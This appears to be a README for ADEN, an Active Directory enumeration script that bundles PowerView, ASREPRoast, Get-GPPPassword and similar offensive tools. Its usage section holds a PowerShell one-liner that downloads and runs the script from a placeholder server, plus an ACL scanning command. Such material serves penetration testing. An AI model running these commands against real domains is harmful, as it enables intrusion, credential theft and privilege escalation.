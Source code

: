 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL

It is to be used as an all-in-one enumeration routine to spin off when you are in a domain user's session.//
Big credits to all the authors of the above mentioned tools! You are awesome.


## How to use?
From a domain's user powershell session:
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-ADEnum
```
The script will perform a number of checks that you can directly see on a clear output. The only thing it doesn't do is ACL enumeration, I recommend you do this once you know your user context, then you can issue manually a command like this:
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "[YOUR_GROUP]"} | select ObjectDN, IdentityReference, ActiveDirectoryRights, AccessControlType
```
